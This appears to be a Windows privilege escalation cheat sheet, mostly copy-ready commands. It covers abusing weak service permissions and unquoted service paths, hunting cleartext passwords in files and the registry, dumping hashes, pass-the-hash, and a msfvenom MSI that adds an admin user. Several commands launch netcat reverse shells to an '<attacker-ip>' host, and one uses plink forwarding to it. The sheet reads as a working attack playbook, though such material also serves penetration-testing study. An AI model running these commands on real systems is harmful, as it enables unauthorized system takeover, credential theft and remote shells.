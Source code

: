 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================

Writable Service Executables
----------------------------

If a services is found which runs as SYSTEM or Administrator level users, and it has weak file permissions, we may be able to replace the service binary, restart the service, and escalate privileges.

Use wmic to extract a list of service executables:

.. code-block:: none

    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt

If wmic is not available:

.. code-block:: none

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

Then use either accesschk.exe, cacls, or icacls to list the access permissions associated with each service executable:

.. code-block:: none

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c accesschk.exe /accepteula -qv "%a" >> accesschk.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c cacls "%a" >> cacls.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c icacls "%a" >> icacls.txt

With accesschk results, look for the following permissions:

.. csv-table::
    :header: "Permission", "Use Case"

    "SERVICE_ALL_ACCESS", "Can do anything."
    "SERVICE_CHANGE_CONFIG", "Can reconfigure the service binary."
    "WRITE DAC", "Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG."
    "WRITE_OWNER", "Can become owner, reconfigure permissions."
    "GENERIC_WRITE", "Inherits SERVICE_CHANGE_CONFIG"
    "GENERIC_ALL", "Inherits SERVICE_CHANGE_CONFIG"

With cacls and icacls, look for (F)ull Access, (M)odify access, (W)rite-only access, (WDAC) write DAC, or (WO) write owner.

Writable Service Objects
------------------------

Use accesschk.exe to find writable service objects:

.. code-block:: none

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

Query a vulnerable service:

.. code-block:: none

    sc qc <service>

Update the service binary path:

.. code-block:: none

    sc config <service> binpath= "<command>"

Update the name of the account which a service runs as:

.. code-block:: none

    sc config upnphost obj= ".\LocalSystem" password= ""

Stop / Start a service:

.. code-block:: none

    wmic service <service> call stopservice
    wmic service <service> call startservice

    net stop <service>
    net start <service>

    sc stop <service>
    sc start <service>

If the service fails to start because of a dependency, you can start the dependency manually, or remove the dependency:

.. code-block:: none

    sc config <service> depend= ""

All-in-one comnand:

.. code-block:: none

    sc config <service> binPath= "<command>" depend= "" start= demand obj= ".\LocalSystem" password= ""
</details>
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

----------------------

Find unquoted service paths:

.. code-block:: none

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

If the unquoted service path is :code:`C:\Program Files\path to\service.exe`, you can place a binary in any of the following paths:

.. code-block:: none

    C:\Program.exe
    C:\Program Files.exe
    C:\Program Files\path.exe
    C:\Program Files\path to.exe
    C:\Program Files\path to\service.exe

Cleartext Passwords
===================

Find passwords in arbitrary files:

.. code-block:: none

    findstr /si password *.txt *.xml *.ini

Find strings in filenames:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Find passwords in all files:

.. code-block:: none

    findstr /spin "password" *.*

Common files which contain passwords:

.. code-block:: none

    type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Search for passwords in the registry:

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

Passing the Hash
================

The following commands can be used to dump password hashes:

.. code-block:: none

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Remote
------

Pass the hash remotely to gain a shell:

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd

Alternative:

.. code-block:: none

    export SMBHASH=<hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd

Local
-----

Pass the hash locally using runas:

.. code-block:: none

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Pass the hash locally using PowerShell:

.. code-block:: none

    secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

Pass the hash locally using psexec:

.. code-block:: none

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Loopback Services
=================

Search for services listening on the loopback interface:

.. code-block:: none

    netstat -ano | findstr "LISTEN"

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

.. code-block:: none

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>

AlwaysInstallElevated
=====================

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Both the following registry values must be set to "1" for this to work:

.. code-block:: none

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Create a malicious MSI:

.. code-block:: none

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi

Use msiexec to run the malicious MSI:

.. code-block:: none

    msiexec /quiet /qn /i C:\evil.msi

Stored Credentials
==================

If there are stored credentials, we can run commands as that user:

.. code-block:: none

    $ cmdkey /list

    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator

Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:

.. code-block:: none

    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"
